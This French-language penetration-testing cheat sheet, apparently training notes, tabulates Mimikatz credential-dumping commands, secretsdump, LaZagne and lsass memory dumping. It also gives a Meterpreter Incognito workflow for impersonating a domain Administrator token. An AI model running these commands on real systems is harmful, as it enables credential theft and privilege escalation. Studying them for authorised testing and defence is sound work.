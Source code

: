 ### Mimikatz
| Commande | Description |
|----------|-------------|
| `privilege::debug` | Activer les privilèges debug |
| `sekurlsa::logonpasswords` | Dump passwords en mémoire |
| `sekurlsa::wdigest` | Credentials WDigest |
| `sekurlsa::kerberos` | Tickets Kerberos |
| `lsadump::sam` | Dump SAM |
| `lsadump::secrets` | Dump LSA secrets |

### Autres outils
| Outil | Commande |
|-------|----------|
| **secretsdump.py** | `secretsdump.py domain/user:pass@target` |
| **LaZagne** | `laZagne.exe all` |
| **procdump + mimikatz** | `procdump.exe -ma lsass.exe lsass.dmp` |

---

## 🎭 7. Impersonation de tokens avec Incognito

### Configuration et utilisation d'Incognito
| Étape | Commande | Description |
|-------|----------|-------------|
| **Charger le module** | `load incognito` | Charge le module Incognito dans Meterpreter |
| **Lister les tokens utilisateurs** | `list_tokens -u` | Affiche les tokens utilisateurs disponibles |
| **Lister les tokens groupes** | `list_tokens -g` | Affiche les tokens de groupes disponibles |
| **Impersonner un token** | `impersonate_token DOMAIN\\Administrator` | Impersonne le token spécifié |
| **Vérifier l'identité** | `getuid` | Confirme l'identité actuelle après impersonation |

### Workflow d'exploitation avec Incognito
| Ordre | Action | Commande |
|-------|--------|----------|
| **1** | **Obtenir shell Meterpreter** | Via exploit (ex: `exploit/windows/http/rejetto_hfs_exec`) |
| **2** | **Vérifier privilèges actuels** | `getuid` |
| **3** | **Charger Incognito** | `load incognito` |
| **4** | **Énumérer tokens** | `list_tokens -u` |
| **5** | **Impersonner Administrator** | `impersonate_token DOMAIN\\Administrator` |
| **6** | **Confirmer escalade** | `getuid` |
